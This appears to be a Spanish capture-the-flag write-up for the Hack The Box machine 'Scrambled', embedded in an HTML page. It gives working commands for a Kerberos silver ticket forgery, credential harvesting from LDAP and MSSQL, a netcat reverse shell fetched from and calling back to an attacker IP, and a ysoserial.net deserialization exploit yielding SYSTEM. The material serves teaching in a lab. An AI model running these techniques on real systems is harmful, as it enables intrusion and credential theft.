1246bb4a46a7b2b5ff6aa41cf9dc544cb793253348e31f513df1fe0b92ef687fbcb6235cb284e648a1e6d24a896084266b53897255f0f0464af0527b34fc2411e4532dac626abc153913bfa830c638418999d8272740f6b2871ec8820104f4e45c4aad639c160bcdfac6e8b4ca0f0c4313d592e7a0f5448c0f8e8f1b45c7b3ad0105585a5fae2a369b89d790db71e03d1d27cebdbf0b60ebc291d12f38aa62a97c3ab7cbca9bf28104089850386cc7008b0f00bc92bb17bd7c43c210b935f4035e00342e7bb9690afb9b7a1f8e73ee5ec065a5096e1b786e92faa32ca85209e9595d0cc7f2da26e8d9ea64aa49938c16169fe6b094426bbeb9b362929c00d853dc89488b22af4c753d2d32ae448cff1e5b89aac5c608046d911ac245dfe0aa7dfe92973807c5f655eb7ac25496aa1a7e1618d87b45fe2546857fbfc6d4dfe45acb1dc95774a1e7599980715dc6cb213b15873064ed08c70334efd247866d75718c2012207604ed02c4937026eb080ffea605173722f9fba39318a215cdef702be8ca84c43d446837d04be4b16851b0890c42cb95ed43c9f3f99f00bd22c157258f34c242bd77d2006d56eac7b52612838c9554cf4bcd7933f337ef6eda88fa9b00610cf7598c5fb3f5b9aa1223a53423a257c30d00dd1c4f9dd51bef4df1760f4e9273c2e16021da0dfc38fd98c81ed0f1667b97ee4e0bab6790ccd8d675bf7fdeae8e97f25aa0558b4ae858bfc1e5553485afba9084d877a20816:Pegasus60
...[snip]...
</code>
</pre>

En realidad, estos créditos no me permiten acceder directamente a nada nuevo. Pero como esta cuenta ejecuta el servicio SQL, puedo usar la contraseña para realizar un
silver ticket attack (https://adsecurity.org/?p=2011)  Un silver ticket es un billete TGS (Ticket Granting Service) falsificado 
que se utiliza directamente entre el cliente y el servicio, sin necesidad de acudir al DC. En cambio, el boleto TGS está firmado por la propia cuenta de servicio y, 
por lo tanto, el boleto Silver se limita a autenticar únicamente el servicio en sí. 

Para crear un Silver Ticket, un atacante necesita:

-    El hash NTLM de la contraseña de la cuenta de servicio;
-    El SID del dominio.
-    El nombre del principio de servicio (SPN) asociado con la cuenta.

Ya adquirí el SPN con GetUserSPNS.py arriba, MSSQLSvc/dc1.scrm.local:1433.

Generar NTLM

Para obtener un hash NTLM de la contraseña "Pegasus60", usaré los comandos de esta publicación (https://blog.atucom.net/2012/10/generate-ntlm-hashes-via-command-line.html): 

- iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4

(stdin)= b999a16500b87d17ec7f2e2a68778f05

CrackStation (https://crackstation.net/) verificará que: 



Para obtener el SID del dominio, necesitaré volver a conectarme a LDAP, pero autenticado. Se necesita mucha solución de problemas y búsqueda de Google para que esto funcione 
Si intento conectarme como ksimpson, aparece un error que indica que se requiere SSL/TLS: 

- ldapsearch -h dc1.scrm.local -D ksimpson@scrm.local -w ksimpson -b "DC=scrm,DC=local" "(objectClass=user)"

ldap_bind: Strong(er) authentication required (8)

        additional info: 00002028: LdapErr: DSID-0C090259, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563

Necesitaré descargar el certificado del servidor para habilitar esta conexión: 

<pre>
<code>
- openssl s_client -connect dc1.scrm.local:636

CONNECTED(00000003)
depth=0 CN = DC1.scrm.local
verify error:num=20:unable to get local issuer certificate
verify return:1         
depth=0 CN = DC1.scrm.local           
verify error:num=21:unable to verify the first certificate
verify return:1                                        
---                                                       
Certificate chain
 0 s:CN = DC1.scrm.local                           
   i:DC = local, DC = scrm, CN = scrm-DC1-CA
---                              
Server certificate
-----BEGIN CERTIFICATE-----
MIIGHDCCBQSgAwIBAgITEgAAAAIJqKDU0Cj0DgAAAAAAAjANBgkqhkiG9w0BAQUF
...[snip]...
G6CIrcE0+XepleMQggP4zOUbTO01AUmq7eX2z031RE4ndrCtgBXuGSHDqnUSvmVN
N6T9KeVeLFfbxp6gyHA3ehMBKrkbp3iLAWiWptbdIHE=
-----END CERTIFICATE-----
...[snip]...

</code>
</pre>

Tomaré ese certificado y lo guardaré en un archivo. Podría hacer eso en una línea con: 

<pre>
<code>
- echo -n | openssl s_client -connect dc1.scrm.local:636 | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' > ldapserver.pem

depth=0 CN = DC1.scrm.local
verify error:num=20:unable to get local issuer certificate
verify return:1
depth=0 CN = DC1.scrm.local
verify error:num=21:unable to verify the first certificate
verify return:1
DONE
</code>
</pre>

Ahora editaré /etc/ldap/ldap.confpara señalar eso: 


<pre>
<code>
#
# LDAP Defaults
#

# See ldap.conf(5) for details
# This file should be world readable but not world writable.

#BASE   dc=example,dc=com
#URI    ldap://ldap.example.com ldap://ldap-master.example.com:666

#SIZELIMIT      12
#TIMELIMIT      15
#DEREF          never

# TLS certificates (needed for GnuTLS)
TLS_CACERT      /home/oxdf/hackthebox/scrambled-10.10.11.168/ldapserver.pem
</code>
</pre>

ldapsearch ahora descartará a todos los usuarios: 

<pre>
<code>
- ldapsearch -h dc1.scrm.local -Z -D ksimpson@scrm.local -w ksimpson -b "DC=scrm,DC=local" "(objectClass=user)" 

# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#
...[snip]...
# Administrator, Users, scrm.local
dn: CN=Administrator,CN=Users,DC=scrm,DC=local
...[snip]...                         
objectSid:: AQUAAAAAAAUVAAAAhQSCo0F98mxA04uX9AEAAA==
...[snip]...                         
</code>
</pre>

Necesito ese SID en forma de cadena, así que usaré este blog (https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253) y algo de Python para escribir un convertidor: 

<pre>
<code>
#!/usr/bin/env python3

import base64
import struct
import sys

b64sid = sys.argv[1]
binsid = base64.b64decode(b64sid)
a, N, cccc, dddd, eeee, ffff, gggg = struct.unpack("BBxxxxxxIIIII", binsid)
bb, bbbb = struct.unpack(">xxHIxxxxxxxxxxxxxxxxxxxx", binsid)
bbbbbb = (bb << 32) | bbbb

print(f"S-{a}-{bbbbbb}-{cccc}-{dddd}-{eeee}-{ffff}-{gggg}")
</code>
</pre>

y funciona

- python sid.py  AQUAAAAAAAUVAAAAhQSCo0F98mxA04uX9AEAAA==

S-1-5-21-2743207045-1827831105-2542523200-500

El SID de dominio es ese SID sin el -500. 

Una forma alternativa (y más sencilla) de obtener el SID del dominio es con el getPac.py de Impacket. Este script está destinado a obtener el Certificado de atributo 
de privilegio para cualquier usuario, lo que solo requiere autenticación como usuario en el dominio. Le daré los créditos de ksimpson y preguntaré por el administrador: 

<pre>
<code>
- getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson

Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation                                   
                                                            
KERB_VALIDATION_INFO 
LogonTime:                           
    dwLowDateTime:                   861207478 
    dwHighDateTime:                  30986970                                                                           
LogoffTime:                            
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
KickOffTime:                           
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647                                                                         
PasswordLastSet:                             
    dwLowDateTime:                   2585823167             
    dwHighDateTime:                  30921784 
PasswordCanChange:                                          
    dwLowDateTime:                   3297396671 
    dwHighDateTime:                  30921985                                                                           
PasswordMustChange:                                                                                                     
    dwLowDateTime:                   4294967295                                                                         
    dwHighDateTime:                  2147483647 
EffectiveName:                   'administrator'                                                                        
FullName:                        '' 
LogonScript:                     ''    
ProfilePath:                     ''                                                                                     
HomeDirectory:                   '' 
HomeDirectoryDrive:              ''    
LogonCount:                      252                   
BadPasswordCount:                0 
UserId:                          500                                                                                    
PrimaryGroupId:                  513        
...[snip]...
Domain SID: S-1-5-21-2743207045-1827831105-2542523200

 0000   10 00 00 00 5C 1F 64 69  57 68 8F 30 29 09 C5 7B   ....\.diWh.0)..{
</code>
</pre>

Hay un montón de información sobre la cuenta, pero para mis propósitos actuales, el último elemento (antes de este hexadecimal de aspecto aleatorio al final)
es el SID del dominio. 

generamos el ticket, ticketer.py (o impacket-ticketer) generará un ticket utilizando la información recopilada: 

<pre>
<code>
- ticketer.py -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator

Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
</code>
</pre>

El archivo de salida es administrator.ccache, que es un ticket de Kerberos como administrador en el que solo confiará el servicio MSSQL. 

En Linux, Kerberos busca tickets en lugares predefinidos, como /tmp/krb5cc_[uid of current user]y cualquier archivo señalado por el KRB5CCACHEVariable ambiental. 
Si solo corro klist, no podrá encontrar el nuevo ticket: 

- klist 

klist: No credentials cache found (filename: /tmp/krb5cc_1000)

Si tengo la variable env apuntando al archivo desde ticketer.py, muestra información sobre el ticket: 

<pre>
<code>
KRB5CCNAME=administrator.ccache klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SCRM.LOCAL

Valid starting       Expires              Service principal
06/14/2022 18:44:15  06/14/2032 18:44:15  MSSQLSvc/dc1.scrm.local:1433@SCRM.LOCAL
        renew until 06/14/2032 18:44:15
</code>
</pre>

Usando ese mismo método, mssqlclient.py Puede conectarse a la base de datos utilizando el ticket:

<pre>
<code>
KRB5CCNAME=administrator.ccache mssqlclient.py -k dc1.scrm.local
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
</code>
</pre>

Comenzaré enumerando las bases de datos: 

<pre>
<code>
SQL> select name, database_id from sys.databases;

name                                        database_id   
------------------------------------------   -----------   
master                                                1   
tempdb                                                2   
model                                                 3   
msdb                                                  4   
ScrambleHR                                            5 
</code>
</pre>

ScrambleHRparece interesante. Tiene tres mesas: 

<pre>
<code>
- SQL> SELECT TABLE_NAME FROM ScrambleHR.INFORMATION_SCHEMA.TABLES;

TABLE_NAME
------------------------------------------   
Employees
UserImport
Timesheets 
</code>
</pre>

El Employeesy Timesheetslas mesas están vacías. Hay una fila en UserImport: 

<pre>
<code>
SQL> SELECT * from ScrambleHR.dbo.UserImport;
LdapUser               LdapPwd                LdapDomain             RefreshInterval   IncludeGroups   
--------------------   --------------------   --------------------   ---------------   -------------   
MiscSvc                ScrambledEggs9900      scrm.local                          90               0 
</code>
</pre>

MSSQL tiene la capacidad de ejecutar comandos a través del procedimiento almacenado xp_cmdshell. Es posible hacerlo aquí, pero la cuenta de servicio no tiene acceso a gran parte del contenido de la caja y, 
en gran medida, estaba destinado a ser un callejón sin salida.

configuracion realm

Necesitaré agregar este dominio a mi local /etc/krb5.confarchivo: 

<pre>
<code>
[libdefaults]
        default_realm = SCRM.LOCAL
# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCRM.LOCAL = {
                kdc = dc1.scrm.local
                admin_server = dc1.scrm.local
        }

[domain_realm]
</code>
</pre>

no puedo usar evil-winrmaquí, pero puedo usar pwshen Linux, tal como se instala según estas instrucciones 
(https://docs.microsoft.com/en-us/powershell/scripting/install/install-ubuntu?view=powershell-7.2). Incluso entonces, tendré algunos problemas al usar un PSSession: 


<pre>
<code>
- pwsh       

PowerShell 7.2.4                                
Copyright (c) Microsoft Corporation.                

https://aka.ms/powershell
Type 'help' to get help.

PS /> Enter-PSSession dc1.scrm.local -Credential MiscSvc

PowerShell credential request
Enter your credentials.
Password for user MiscSvc: *****************

Enter-PSSession: MI_RESULT_ACCESS_DENIED
</code>
</pre>

tendré que entrar pwshcomo root e instale Open Management Infrastructure - PowerShell Edition (https://github.com/jborean93/omi):

<pre>
<code>
- sudo pwsh

PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /> Install-Module -Name PSWSMan -Scope AllUsers

Untrusted repository
You are installing the modules from an untrusted repository. If you trust this repository, change its InstallationPolicy value by running the Set-PSRepository cmdlet. Are you sure you want to install the modules from 'PSGallery'?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
PS /> Install-WSMan
WARNING: WSMan libs have been installed, please restart your PowerShell session to enable it in PowerShell
PS /> exit
</code>
</pre>

Ahora, de vuelta en PowerShell, obtendré una sesión: 

<pre>
<code>
- pwsh

PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /> Enter-PSSession dc1.scrm.local -Credential MiscSvc

PowerShell credential request
Enter your credentials.
Password for user MiscSvc: *****************

[dc1.scrm.local]: PS C:\Users\miscsvc\Documents>
</code>
</pre>

buscamos la flag de user

- [dc1.scrm.local]: PS C:\Users\miscsvc\Documents> type c:\ users\miscsvc\desktop\ user.txt

8d9496bc************************

subiremos nc64.exe ya que la shell es demasiado lenta:

<pre>
<code>
[dc1.scrm.local]: PS C:\programdata> iwr 10.10.14.6/nc64.exe -outfile nc64.exe
[dc1.scrm.local]: PS C:\programdata> .\nc64.exe -e powershell 10.10.14.6 443
</code>
</pre>

y atrapamos la shell

- rlwrap -cAr nc -lnvp 443

Listening on 0.0.0.0 443
Connection received on 10.10.11.168:55817
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\programdata>

Como MiscSvc, ahora tengo acceso al recurso compartido de TI (a los demás todavía se les niega el acceso): 

<pre>
<code>
    PS C:\shares> ls

Directory: C:\shares

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       01/11/2021     15:21                HR
d-----       03/11/2021     19:32                IT
d-----       01/11/2021     15:21                Production
d-----       04/11/2021     22:23                Public
d-----       03/11/2021     19:33                Sales

PS C:\shares> cd IT
cd IT
PS C:\shares\IT> ls

Directory: C:\shares\IT

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       03/11/2021     21:06                Apps
d-----       03/11/2021     19:32                Logs
d-----       03/11/2021     19:32                Reports 
</code>
</pre>

En el Appscarpeta, hay dos ejecutables, ScrambleClient.exey ScrambleLib.dll: 

<pre>
<code>
PS C:\shares\IT\Apps\Sales Order Client> ls

Directory: C:\shares\IT\Apps\Sales Order Client

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       05/11/2021     20:52          86528 ScrambleClient.exe
-a----       05/11/2021     20:52          19456 ScrambleLib.dll  
</code>
</pre>

Descargaré ambos a través de SMB: 

<pre>
<code>
- smbclient.py -k scrm.local/MiscSvc:ScrambledEggs9900@dc1.scrm.local -dc-ip dc1.scrm.local

Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# use IT
# get Apps/Sales Order Client/ScrambleClient.exe
# get Apps/Sales Order Client/ScrambleLib.dll
</code>
</pre>

Ambos archivos son ejecutables .NET de 32 bits: 

- file ScrambleClient.exe 

ScrambleClient.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows

- file ScrambleLib.dll 

ScrambleLib.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows

Saltaré a una máquina virtual de Windows (esta parte es la misma que la publicación de Windows ). Al ejecutar el EXE aparecen las mismas ventanas en las páginas de TI: 

Usando dnSpy (https://github.com/dnSpy/dnSpy/releases) para descompilar la DLL podemos encontrar los códigos utilizados por la aplicación en el puerto 4411. 

<pre>
<code>
# ScrambleLib/SracmbleNetSharesd
public const string CODE_ERROR_GENERIC = "ERROR_GENERAL";
public const string CODE_SUCCESS = "SUCCESS";
public const string CODE_BANNER = "SCRAMBLECORP_ORDERS_V1.0.3";
public const string CODE_TIMEOUT = "SESSION_TIMED_OUT";
public const string CODE_ERROR_SIZE_LIMIT = "ERROR_SIZE_LIMIT_EXCEEDED";
public const string CODE_ERROR_UNKNOWN_COMMAND = "ERROR_UNKNOWN_COMMAND";
public const string CODE_ERROR_ACCESSDENIED = "ERROR_ACCESS_DENIED";
public const string CODE_ERROR_BAD_CREDS = "ERROR_INVALID_CREDENTIALS";
public const string CODE_LIST_ORDERS = "LIST_ORDERS";
public const string CODE_UPLOAD_ORDER = "UPLOAD_ORDER";
public const string CODE_LOGON = "LOGON";
public const string CODE_QUIT = "QUIT";
public const int ServerPort = 4411;
public const char MessagePartSeparator = ';';
public const char ContentListSeparator = '|';
</code>
</pre>

Como podemos ver hay dos comandos especiales. LIST_ORDERS y UPLOAD_ORDER. 

El cliente envía LIST_ORDERS; al iniciar sesión correctamente. La cadena base64 devuelta es un objeto .NET serializado: 

<pre>
<code>
    echo "AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzYwMQYEAAAAC1NDUk1RVTkxODcyBgUAAAAGSiBIYWxsCQYAAAAAQBHK4mnaCAAAAAAAIHJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==|AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzc0OQYEAAAAC1NDUk1RVTkyMjEwBgUAAAAJUyBKZW5raW5zCQYAAAAAAJ07rZbaCAAAAAAAUJJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==" | base64 -d | xxd
base64: invalid input
00000000: 0001 0000 00ff ffff ff01 0000 0000 0000  ................
00000010: 000c 0200 0000 4253 6372 616d 626c 654c  ......BScrambleL
00000020: 6962 2c20 5665 7273 696f 6e3d 312e 302e  ib, Version=1.0.
00000030: 332e 302c 2043 756c 7475 7265 3d6e 6575  3.0, Culture=neu
00000040: 7472 616c 2c20 5075 626c 6963 4b65 7954  tral, PublicKeyT
00000050: 6f6b 656e 3d6e 756c 6c05 0100 0000 1653  oken=null......S
00000060: 6372 616d 626c 654c 6962 2e53 616c 6573  crambleLib.Sales
00000070: 4f72 6465 7207 0000 000b 5f49 7343 6f6d  Order....._IsCom
00000080: 706c 6574 6510 5f52 6566 6572 656e 6365  plete._Reference
00000090: 4e75 6d62 6572 0f5f 5175 6f74 6552 6566  Number._QuoteRef
000000a0: 6572 656e 6365 095f 5361 6c65 7352 6570  erence._SalesRep
000000b0: 0b5f 4f72 6465 7249 7465 6d73 085f 4475  ._OrderItems._Du
000000c0: 6544 6174 650a 5f54 6f74 616c 436f 7374  eDate._TotalCost
000000d0: 0001 0101 0300 0001 7f53 7973 7465 6d2e  .........System.
000000e0: 436f 6c6c 6563 7469 6f6e 732e 4765 6e65  Collections.Gene
000000f0: 7269 632e 4c69 7374 6031 5b5b 5379 7374  ric.List'1[[Syst
00000100: 656d 2e53 7472 696e 672c 206d 7363 6f72  em.String, mscor
00000110: 6c69 622c 2056 6572 7369 6f6e 3d34 2e30  lib, Version=4.0
00000120: 2e30 2e30 2c20 4375 6c74 7572 653d 6e65  .0.0, Culture=ne
00000130: 7574 7261 6c2c 2050 7562 6c69 634b 6579  utral, PublicKey
00000140: 546f 6b65 6e3d 6237 3761 3563 3536 3139  Token=b77a5c5619
00000150: 3334 6530 3839 5d5d 0d06 0200 0000 0006  34e089]]........
00000160: 0300 0000 0a53 4352 4d53 4f33 3630 3106  .....SCRMSO3601.
00000170: 0400 0000 0b53 4352 4d51 5539 3138 3732  .....SCRMQU91872
00000180: 0605 0000 0006 4a20 4861 6c6c 0906 0000  ......J Hall....
00000190: 0000 4011 cae2 69da 0800 0000 0000 2072  ..@...i....... r
000001a0: 4004 0600 0000 7f53 7973 7465 6d2e 436f  @......System.Co
000001b0: 6c6c 6563 7469 6f6e 732e 4765 6e65 7269  llections.Generi
000001c0: 632e 4c69 7374 6031 5b5b 5379 7374 656d  c.List'1[[System
000001d0: 2e53 7472 696e 672c 206d 7363 6f72 6c69  .String, mscorli
000001e0: 622c 2056 6572 7369 6f6e 3d34 2e30 2e30  b, Version=4.0.0
000001f0: 2e30 2c20 4375 6c74 7572 653d 6e65 7574  .0, Culture=neut
00000200: 7261 6c2c 2050 7562 6c69 634b 6579 546f  ral, PublicKeyTo
00000210: 6b65 6e3d 6237 3761 3563 3536 3139 3334  ken=b77a5c561934
00000220: 6530 3839 5d5d 0300 0000 065f 6974 656d  e089]]....._item
00000230: 7305 5f73 697a 6508 5f76 6572 7369 6f6e  s._size._version
00000240: 0600 0008 0809 0700 0000 0000 0000 0000  ................
00000250: 0000 1107 0000 0000 0000 000b            ............
</code>
</pre>

Después de algunas pruebas y errores, podríamos usar la carga útil ysoserial.net (https://github.com/pwntester/ysoserial.net/releases/tag/v1.34) para hacer ping a nuestro host. 

<pre>
<code>
ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "ping  10.10.14.64"
[...]

kali@kali:~/Documents/HTB/Scrambled$ echo "UPLOAD_ORDER;<ysoserial payload>" | nc scrm.local 4411


kali@kali:~/Documents/HTB/Scrambled$ sudo tcpdump -i tun0 icmp
15:17:43.467722 IP scrm.local > 10.10.14.64: ICMP echo request, id 1, seq 12, length 40
15:17:43.467754 IP 10.10.14.64 > scrm.local: ICMP echo reply, id 1, seq 12, length 40
</code>
</pre>

Finalmente, para obtener un shell inverso, podemos usar la misma carga útil de revshell y ejecutar el mismo comando. 

<pre>
<code>
- ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "<PowerShell #3 (Base64) PAYLOAD>"

kali@kali:~/Documents/HTB/Scrambled$ echo "UPLOAD_ORDER;<ysoserial payload>" | nc scrm.local 4411

kali@kali:~/Documents/HTB/Scrambled$ rlwrap nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.168] 59307
PS C:\Users\Administrator\Desktop> whoami
nt authority\system
PS C:\Users\Administrator\Desktop> type C:\Users\Administrator\Desktop\root.txt
[CENSORED]
</code>
</pre>

buscamos la flag y terminada.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me

        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>